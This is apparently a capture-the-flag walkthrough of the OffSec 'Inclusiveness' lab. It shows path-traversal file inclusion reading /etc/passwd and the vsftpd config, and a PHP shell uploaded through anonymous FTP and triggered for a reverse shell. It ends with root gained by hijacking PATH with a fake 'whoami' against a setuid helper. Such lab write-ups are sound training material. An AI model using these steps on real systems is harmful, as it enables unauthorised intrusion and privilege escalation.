

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Inclusiveness
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.195.14 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.195.14:21
Open 192.168.195.14:22
Open 192.168.195.14:80

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

用buster找資料夾，查看`http://192.168.195.14/robots.txt`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ gobuster dir -u http://192.168.195.14 -w /home/kali/SecLists/Discovery/Web-Content/common.txt

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10701]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.195.14/javascript/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.195.14/manual/]
/robots.txt           (Status: 200) [Size: 59]
/server-status        (Status: 403) [Size: 279]
Progress: 4727 / 4727 (100.00%)
```



透過`burpsuite`查看[User-agent](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Headers/User-Agent)，將`Mozilla`改成`Googlebot/2.1`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ burpsuite

GET /robots.txt HTTP/1.1
Host: 192.168.195.14
User-Agent: Googlebot/2.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 08 Feb 2020 03:40:29 GMT
If-None-Match: "3b-59e084481655e"
```

得到
```
HTTP/1.1 200 OK
Date: Tue, 12 Mar 2024 10:04:43 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Sat, 08 Feb 2020 03:26:11 GMT
ETag: "2d-59e08115bb1ef"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/plain

User-agent: *
Disallow: /secret_information/
```

查看`http://192.168.195.14/secret_information/`，有`http://192.168.195.14/secret_information/?lang=en.php`的東東，可以直覺LFI
```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl http://192.168.195.14/secret_information/?lang=../../../../etc/passwd    
<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi-autoipd:x:107:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
avahi:x:113:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:114:121::/var/lib/saned:/usr/sbin/nologin
colord:x:115:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:116:123::/var/lib/geoclue:/usr/sbin/nologin
tom:x:1000:1000:Tom,,,:/home/tom:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:118:125:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

查看ftp的config，進ftp上傳shell
```
http://192.168.195.14/secret_information/?lang=../../../../etc/vsftpd.conf

... /var/ftp/ write_enable=YES #

┌──(kali㉿kali)-[~/pgplay]
└─$ ftp 192.168.195.14
ftp> cd pub
ftp> put shell.php
```

開nc，瀏覽網頁`http://192.168.195.14/secret_information/?lang=/var/ftp/pub/shell.php`，等反彈
可在`/home/tom`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@inclusiveness:/home/tom$ cat local.txt
b5a39840be0128f1422591da2c578075
```

`/home/tom`的資料夾有一個`rootshell.c`，他會執行`whoami`的執行檔
```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```

創建一個whoami檔在`/tmp`路徑，把環境變數設在`/tmp`，到`/home/tom`執行rootshell後可得root，在/root可得proof.txt
```
www-data@inclusiveness:/tmp$ cat whoami
print "tom"
www-data@inclusiveness:/tmp$ chmod +x whoami
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ ./rootshell
checking if you are tom...
you are: tom
access granted.

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@inclusiveness:/root# cat proof.txt
cat proof.txt
cb87ea2372c0cd32242fdee37f39f23c
```